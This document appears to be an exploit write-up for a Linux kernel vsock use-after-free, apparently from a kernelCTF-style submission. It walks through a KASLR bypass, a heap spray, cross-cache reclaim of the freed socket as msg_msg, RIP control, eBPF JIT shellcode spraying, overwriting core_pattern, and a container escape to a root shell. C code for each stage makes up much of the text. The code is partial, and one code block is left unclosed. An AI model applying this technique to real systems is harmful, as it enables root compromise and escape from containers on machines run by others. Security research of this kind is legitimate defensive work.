 # Vulnerability

This vulnerability occurs in the Linux kernel's vsock subsystem, specifically due to improper handling of socket bindings during transport reassignment. When a vsock is created and bound (either explicitly via bind() or implicitly via autobind during a connection), improper reference count management leads to premature removal and deallocation of the socket (use-after-free). Specifically, the kernel incorrectly removes and decreases `struct sock`'s reference count without ensuring it was properly bound, resulting in `struct sock` being freed prematurely. Consequently, further access to this freed `struct sock` causes a use-after-free condition, potentially allowing attackers to exploit freed `struct sock`.


# Exploit Tech Detail
The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Spray as many anonymous memory as possible to full the kernel heap memory
* Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`
* Call __vsock_release to RIP Control
* Achieve container escape.

## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the anonymous memory in kernel heap. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Spray as many anonymous memory as possible to full the kernel heap memory

```C
// Spray as many anonymous memory as possible to full the kernel heap memory
int spray_anon_map()
{
	size_t *addr = SYSCHK(mmap(0, 0x30000000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0));
	for (int i = 0; i < 0x30000000 / 8; i++)
	{
		addr[i] = 0xffffffffcc000000 - 0x800;
	}
}
```

We implements a memory spraying technique to exhaust kernel heap memory by allocating a large anonymous shared memory region (0x30000000 bytes, approximately 768 MB) using the mmap system call. It fills this allocated memory with a specific kernel-space address (0xffffffffcc000000 - 0x800), which is our guessd ebpf address


## Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`

With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-1024` cache like following example code.

* Allocate a lot sock between victim
```c
	// Allocate some `struct sock` before victim
	for (int i = 0; i < 0x100; i++)
		cross[i] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	fd = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	// Allocate some `struct sock` after victim
	for (int i = 0; i < 0x100; i++)
		cross[i + 0x100] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

```

* Free them all and reclaim as msg_msg
```c

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i]);

	vsock_connect_fd(fd, VMADDR_CID_HOST, VMADDR_PORT_ANY);

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i + 0x100]);

	for (int i = 0; i < 0x4000; i++)
		SYSCHK(msgsnd(msqid[i], &msg, KMALLOC_CG_1k - KMALLOC_CG_1k, 0));


## RIP Control
We set `vsk->transport` to our guessed kernel heap which contents is our guessed ebpf address.

```c
static void __vsock_release(struct sock *sk, int level)
{
	if (sk) {
		struct sock *pending;
		struct vsock_sock *vsk;

		vsk = vsock_sk(sk);
		pending = NULL;	/* Compiler warning. */

		/* When "level" is SINGLE_DEPTH_NESTING, use the nested
		 * version to avoid the warning "possible recursive locking
		 * detected". When "level" is 0, lock_sock_nested(sk, level)
		 * is the same as lock_sock(sk).
		 */
		lock_sock_nested(sk, level);

		if (vsk->transport)
			vsk->transport->release(vsk);
```


## Achieve container escape
### Spray eBPF programs

Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++

		// #define SYS_pidfd_getfd 438
		int pid = strtoull(argv[2], 0, 10);
		int pfd = syscall(SYS_pidfd_open, pid, 0);
		int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
		int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
		int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
		dup2(stdinfd, 0);
		dup2(stdoutfd, 1);
		dup2(stderrfd, 2);
		/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
		system("cat /flag;echo o>/proc/sysrq-trigger");
		execlp("bash", "bash", NULL);

```
